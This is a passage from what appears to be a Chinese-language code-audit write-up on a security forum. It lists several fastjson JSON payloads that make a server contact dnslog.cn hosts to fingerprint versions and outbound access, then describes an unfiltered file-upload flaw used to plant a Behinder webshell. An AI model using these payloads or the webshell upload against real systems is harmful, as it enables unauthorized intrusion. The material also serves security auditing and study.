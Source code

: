 以下POC出网，说明fastjson&lt;=1.2.47

{"name":{"@type":"java.net.InetAddress","val":"1247.xxxxx.dnslog.cn"}}

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-ca62ad1cf672e340e2370522b63c4495f5b34543.png)  
以下这个POC出网，说明fastjson&gt;=1.2.37

{{"@type":"java.net.URL","val":"[http://weffewfddd.dnslog.cn"}:"aaa](http://weffewfddd.dnslog.cn)"}

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-b8220580dd124f6198e0db5e3a1cc817dd0bcdfa.png)  
**以下这几个POC，只能证明fastjson出网，无法判断fastjson是否存在反序列化漏洞，因为最新的打了补丁的fastjson也是能发起DNS请求的**。误以为能DNS出网，就认为存在fastjson漏洞，这是不正确的。

{"@type":"java.net.Inet6Address","val":"sdffsd.dnslog.cn"}

{"@type":"java.net.Inet4Address","val":"xxxxx.dnslog.cn"}

{"@type":"java.net.InetSocketAddress"{"address":,"val":"wefewffw.dnslog.cn"}}

以下这个POC比较不错，实战中用一用会有意想不到的效果。

{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"<http://allmet.dnslog.cn>"}}""}

Set\[{"@type":"java.net.URL","val":"<http://allmet.dnslog.cn>"}\]

Set\[{"@type":"java.net.URL","val":"<http://allmet.dnslog.cn>"}

{{"@type":"java.net.URL","val":"[http://allmet.dnslog.cn"}:0](http://allmet.dnslog.cn)

文件上传
----

审计过程  
通过对pom.xml的审计，可以看出使用了commons-fileupload,则判断是否存在文件上传，全局搜索fileup

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-b31a597cbf8d137399496c28e2f49ad1488ce659.png)  
对uploadfile方法进行审计，中间使用了fs.savefile()方法对文件进行保存

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-9f8773783e83a0574ac2988f10a248be6f75ebd9.png)  
savefile方法中获取后缀后，直接做了拼接，保存到硬盘中，并没有白名单或者黑名单进行判断过滤

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-31524ff44feee98fb6dad40070b04c61bb09f9f5.png)  
由于是文件上传，可以采用功能查找在文件管理处，使用文件上传功能抓包

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-43fbb1fd7ad1a58594704dbadc500d1220bcbed4.png)

黑盒验证：  
将上传的图片后缀和内容修改为冰蝎马  
从页面未能找到回显路径，但在硬盘中搜索，存在上传的冰蝎马

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-230ec365124f640b470fc99316c461d26c566ca8.png)

xss代码审计
-------
